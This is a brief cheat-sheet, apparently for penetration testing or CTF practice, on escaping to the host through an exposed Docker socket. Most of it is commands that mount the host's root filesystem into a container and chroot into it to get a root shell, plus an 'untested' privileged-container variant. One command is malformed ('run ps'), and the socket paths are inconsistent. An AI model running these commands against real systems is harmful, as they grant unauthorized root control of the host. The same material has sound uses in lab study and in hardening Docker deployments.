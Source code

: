 ```shell-session
$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

## Mounting the host root to docker 
list images
```
docker image list
```



list containers
```
docker -H /run/docker.socket run ps
```

create and use container to mount host's root to docker
```
docker -H unix:///run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

untested: 
create a container from an image
```
`docker -H unix:///run/docker.sock run -it --privileged -v /:/hostsystem ubuntu /bin/bash`
```